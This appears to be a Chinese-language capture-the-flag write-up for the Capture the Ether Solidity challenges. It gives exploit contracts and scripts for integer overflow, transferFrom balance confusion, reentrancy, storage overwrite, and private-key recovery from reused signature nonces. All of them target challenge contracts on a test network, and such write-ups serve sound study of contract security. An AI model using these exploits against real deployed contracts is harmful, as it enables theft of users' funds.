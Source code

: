 ## Deploy a contract
![image](https://user-images.githubusercontent.com/118118760/223460455-645af028-aac9-4c26-8a1b-816c65241bda.png)
成功部署合约
## Call me
> (web3.utils.asciiToHex('RIPWU')).padEnd(64, '0')
'0x52495057550000000000000000000000000000000000000000000000000000'
## Guess the secret number
uint8取值空间极小[0,255],遍历查找
pragma solidity ^0.4.21;

contract ExploitGuessTheSecretNumberChallenge {
    bytes32 answerHash = 0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365;

    function guess() public view returns (uint256) {
        for (uint8 n = 0; n < 255; n++) {
            if (keccak256(n) == answerHash) {
                return n;
            }
        }

        return 256;
    }
}
## Token sale
buy() 函数中的乘法存在溢出

async function main() {
    const targetAddress = '0x546a782986933ff853248E865cC0AFd9fb93a721';
    const targetABI = require('../build/contracts/TokenSaleChallenge.json').abi;
    const targetContract = new web3.eth.Contract(targetABI, targetAddress);

    //
    const Max = web3.utils.toBN("0x10000000000000000000000000000000000000000000000000000000000000000");
    const Ether = web3.utils.toBN(web3.utils.toWei('1'));
    const Zero = web3.utils.toBN('0');
    const One = web3.utils.toBN('1');

    const divmod = Max.divmod(Ether);

    //
    var numTokens = divmod.div.add(One);
    const value = numTokens.mul(Ether).sub(Max);

    await targetContract.methods.buy(numTokens).send({value});
    await targetContract.methods.sell(One).send();
}
## Token Whale
transferFrom() 检查的是外部传入的 from 的余额，而实际扣款扣的是 msg.sender，存在溢出

pragma solidity ^0.4.21;

import "./TokenWhaleChallenge.sol";

contract ExploitTokenWhaleChallenge {
    TokenWhaleChallenge public target = TokenWhaleChallenge(0x4E12fAB3CF4aF2E96863c26c0949CEE97b092350);
    address public owner;

    function ExploitTokenWhaleChallenge() public {
        owner = msg.sender;
        require(target.balanceOf(owner) == target.totalSupply());
    }

    function attack() public {
        address self = address(this);
        uint256 allowance = target.allowance(owner, self);
        require(allowance > 0);

        target.transferFrom(owner, owner, allowance);
        target.transfer(owner, 1000000);
        require(target.isComplete() == true);
    }
}
## Retirement fund
collectPenalty() 中的减法操作存在溢出，问题是合约没有显式的 payable receive() 或 payable fallback()
参考 Ethernaut #7 Force，通过 SELEDESTRUCT 强制发送 ETH 即可
## Mapping
类似 Ethernaut #19 Alien Codex，也是覆盖漏洞
> console.log('0x' + (2n ** 256n - BigInt(web3.utils.keccak256('0x' + '1'.padStart(64, '0')))).toString(16))
0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
## Donation
donate() 中 donation 定义时未指定引用，默认指向 slot0
对 donation 的修改会覆盖 slot0 和 slot1，即 donations.length 和 owner
## Fifty years
题目要求是将合约中的 ETH 全部取走
构造特定的 contribution，其 unlockTimestamp 足够小，通过 withdraw 函数的校验
令 head 为 0，使得调用 withdraw 函数时可以将所有 contribution 资金都取出
contribution.timestamp 会覆盖 head，将 1 和 2 结合起来，插入 timestamp 为 0 的 contribution

再次调用 upsert 构建 contribution2
// timestamp 设置为 0，等于 contribution1.unlockTimestamp + 1 days，可以通过 require 检查
contract.upsert(10, 0)
需要调用 contract.withdraw(1) 就可以取出合约内所有资金
## Fuzzy identity
构造一个合约，实现 name 接口且合约地址中包含 “badc0de”
合约地址得包含 “badc0de”
address = keccak(RLP([deployer, nonce]))[12:]
部署合约contract IdentifierHacker is IName {
    
    function name() external view override returns (bytes32) {
        return bytes32("smarx");
    }
    
    function auth(FuzzyIdentityChallenge c) public {
        c.authenticate();
    }
    
    function checkCompleted(FuzzyIdentityChallenge c) public view returns (bool) {
        return c.isComplete();
    }
}
## Public Key
找到 owner 的 publicKey
从 etherscan 上找到 owner 发送过的交易的 rawtx，可以从 rawtx 中得到签名和交易信息，有了交易信息、签名，就可以恢复出公钥
const EthereumTx = require('ethereumjs-tx').Transaction

const rawtx = '0xf87080843b9aca0083015f90946b477781b0e68031109f21887e6b5afeaaeb002b808c5468616e6b732c206d616e2129a0a5522718c0f95dde27f0827f55de836342ceda594d20458523dd71a539d52ad7a05710e64311d481764b5ae8ca691b05d14054782c7d489f3511a7abf2f5078962'

let tx = new EthereumTx(rawtx, {chain: 'ropsten'})
let publicKey = tx.getSenderPublicKey().toString('hex')
console.log(publicKey
## Account takeover
得到 owner 的私钥
owner 发送的最早两笔交易，他们签名的 r 值是相同的
const EthereumTx = require('ethereumjs-tx').Transaction

const rawtx1 = '0xf86b80843b9aca008252089492b28647ae1f3264661f72fb2eb9625a89d88a31881111d67bb1bb00008029a069a726edfb4b802cbf267d5fd1dabcea39d3d7b4bf62b9eeaeba387606167166a07724cedeb923f374bef4e05c97426a918123cc4fec7b07903839f12517e1b3c8'
const rawtx2 = '0xf86b01843b9aca008252089492b28647ae1f3264661f72fb2eb9625a89d88a31881922e95bca330e008029a069a726edfb4b802cbf267d5fd1dabcea39d3d7b4bf62b9eeaeba387606167166a02bbd9c2a6285c2b43e728b17bda36a81653dd5f4612a2e0aefdb48043c5108de'

let tx1 = new EthereumTx(rawtx1, {chain: 'ropsten'})
let tx2 = new EthereumTx(rawtx2, {chain: 'ropsten'})
console.log(tx1.r.toString('hex') === tx2.r.toString('hex')) // true
得到私钥后利用 owner 地址调用目标的 authenticate 方法
## Assume ownership
成为合约 owner
构造函数 typo，直接调用 AssumeOwmershipChallenge 函数成为 owner
## Token bank
把 TokenBankChallenge 合约中的代币取光
部署攻击合约
contract TokenBankHacker is ITokenReceiver {

    SimpleERC223Token token;
    TokenBankChallenge bank;
    address addr;
    
    function setParams(SimpleERC223Token _token, TokenBankChallenge _bank, address _addr) public {
        token = _token;
        bank = _bank;
        addr = _addr;
    }
    
    function withdraw(uint256 amount) public {
        bank.withdraw(amount);
    }
    
    function tokenFallback(address from, uint256 value, bytes data) external {
        if (from == addr) {
            token.transfer(address(bank), value, data);
        } else if (token.balanceOf(address(this)) < 1000000000000000000000000) {
            bank.withdraw(value);
        }
    }
}
从 bank 中 withdraw 到 player 地址
从 player 地址给攻击合约转账
通过攻击合约调用 bank.withdraw



